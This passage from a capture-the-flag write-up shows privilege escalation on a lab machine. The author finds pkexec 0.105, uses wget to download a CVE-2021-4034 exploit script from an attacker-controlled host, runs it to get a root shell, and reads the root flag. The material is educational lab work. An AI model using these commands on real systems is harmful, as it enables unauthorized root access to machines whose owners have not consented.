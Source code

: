 I found pkexec suspicious so I checked its version along with availability of python3 Tool .

```bash
www-data@skynet:/$ /usr/bin/pkexec --version
/usr/bin/pkexec --version
pkexec version 0.105
www-data@skynet:/$ which python3
which python3
/usr/bin/python3
www-data@skynet:/$
```
{: .nolineno}
{: .nolineno}

Since this version of <mark style="background: #ABF7F7A6;">pkexec</mark> is vulnerable so lets upload an [exploit](https://github.com/Almorabea/pkexec-exploit) for that I can get root access ⏬

```bash
www-data@skynet:/$ cd /tmp
cd /tmp
www-data@skynet:/tmp$ wget http://10.11.75.200/pkexec_CVE-2021-4034.py
wget http://10.11.75.200/pkexec_CVE-2021-4034.py
--2024-04-11 06:06:12--  http://10.11.75.200/pkexec_CVE-2021-4034.py
Connecting to 10.11.75.200:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3067 (3.0K) [text/x-python]
Saving to: 'pkexec_CVE-2021-4034.py'

pkexec_CVE-2021-403 100%[===================>]   3.00K  --.-KB/s    in 0s      

2024-04-11 06:06:12 (340 MB/s) - 'pkexec_CVE-2021-4034.py' saved [3067/3067]

www-data@skynet:/tmp$ chmod +x pk	
chmod +x pkexec_CVE-2021-4034.py 
www-data@skynet:/tmp$ python3 pkexec_CVE-2021-4034.py
python3 pkexec_CVE-2021-4034.py
Do you want to choose a custom payload? y/n (n use default payload)  n
n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f57d34484e8 at 0x7f57d32dc9b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
whoami
root
# cd /root
cd /root
# /bin/bash -i
/bin/bash -i
root@skynet:/root# ls -al
ls -al
total 28
drwx------  4 root root 4096 Sep 17  2019 .
drwxr-xr-x 23 root root 4096 Sep 18  2019 ..
lrwxrwxrwx  1 root root    9 Sep 17  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Sep 17  2019 .cache
drwxr-xr-x  2 root root 4096 Sep 17  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep 17  2019 root.txt
root@skynet:/root# cat root.txt
cat root.txt
FLAG_FLAG_FLAG_FLAG_FLAG_FLAG
```